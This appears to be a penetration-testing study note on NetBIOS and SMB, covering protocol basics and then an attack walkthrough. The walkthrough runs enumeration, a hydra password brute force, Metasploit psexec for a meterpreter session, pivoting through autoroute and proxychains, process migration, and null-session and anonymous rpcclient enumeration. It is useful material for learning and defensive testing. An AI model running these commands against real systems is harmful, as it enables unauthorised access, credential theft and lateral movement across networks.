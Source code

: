 
# NetBIOS (Network Basic Input Output System) 

is the service that allows Windows Systems to share files, folders and printers among machines on a LAN.


* Flow

PC's on a NetBIOS LAN communicate either by establishing a session or by using datagrams. To to This , NetBIOS uses the following TCP and UDP Ports.
  * UDP 137 for name services
  * UDP 138 for datagram services
  * TCP 139 for session services

---
* Name service

has the same purpose of a DNS record, it translates and maps a NetBIOS name to an IP (16-byte).
[NetBIOS Reference](https://technet.microsoft.com/en-us/library/cc738412(v=ws.10).aspx)

---

* Datagram Service 

The datagram service allows the sending and receiving of the datagram messages to and from:
  * a specific NetBIOS name
  * broadcast the datagram to all NetBIOS names

---

* Session service

The NetBIOS Session Service (NBSS) is the most commonly known of the NetBIOS services. It allows two names to establish a connection in order to exchange data.

---

* Server Message Block (SMB)

SMB lets you shares files , disks, directories, printers.

---

* How to enum NetBIOS & Pivoting

1-Gather information about target

> nbtstat -A 192.168.x.x

2-list domains, computers and resources shared by a computer in the network. 

> smbclient -L 192.168.x.x

> smbclient //192.168.x.x/folder

3- Get SMB users

> nmap  --script smb-enum-users.nse  192.168.x.x

4- After list all users 

> hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.x.x smb

5- After getting the password use metasploit 

> use exploit/windows/smb/psexec
> set RHOSTS 192.168.x.x
> set SMBUser administrator
> set SMBPass password
> exploit

6- After get meterpreter session , the following can add route to the specific IP **(Pivoting)**

> run autoroute 192.168.x2.x2/20

7- Start the socks proxy server to access the pivot system on the attacker's machine using the proxychains tool.

> cat /etc/proxychains4.conf                          (check the proxy port)

![image](https://user-images.githubusercontent.com/73122852/231012959-a2223c61-e9fa-4bfc-9c52-b29427526f36.png)

> background                                       (to run the current session in the backgroud)
> use auxiliary/server/socks_proxy
> show options
> set SRVPORT PORTHere
> set VERSION 4a 
> exploit
> jobs                                                  (to see the current jobs)

![image](https://user-images.githubusercontent.com/73122852/231013241-6174b314-59c1-4524-99d4-b65d54ade603.png)

8- Now we can run nmap to scan the filterd ports

> proxychains nmap 192.168.x2.x2 -sT -Pn -sV -p 445

9- trying to move to the second target

> net view 192.168.x2.x2

if that failed that because we need privilege, So back to meterpreter

> migrate -N explorer.exe
> net view 192.168.x2.x2


---

* Null Session

is the one of the oldest and most known attacks performed on Windows 2000 and Windows NT environments. Thanks to this weakness, malicious users are able to establish a connection to the victim in order to
gather information such as shares, users, groups, registry keys and much more.

Null sessions rely on Common Internet File System (CIFS) and Server Message Block (SMB) API, that return information even to an unauthenticated user.

> net use \\192.168.x.x\IPC$ "" /u:""

> smbclient //192.168.x.x/folder      with anonymous username and password

also using smbclient .

---

* Enum4linux

basically a wrapper around rpcclient , net , nmblookup and smbclient. That can gather (Target information , Workgroup/domain , Share Enum , Password Policy , Groups ,Domain SID , Users , Printer Info)

> enum4linux 192.168.x.x

---

* Rpcclient

a tool that can execute Microsoft RPC (Remote Procedure Call) functionalities.

> rpcclient -N -U "" 192.168.x.x

Then Use enumdomusers to list all users.

![image](https://user-images.githubusercontent.com/73122852/230804850-70ed025e-9a90-49e3-b352-a14f1fff68f2.png)









SNMP (Simple Network Management Protocol) : is a protocol used to both gather information and configure network devices (printers,switches,servers,....).

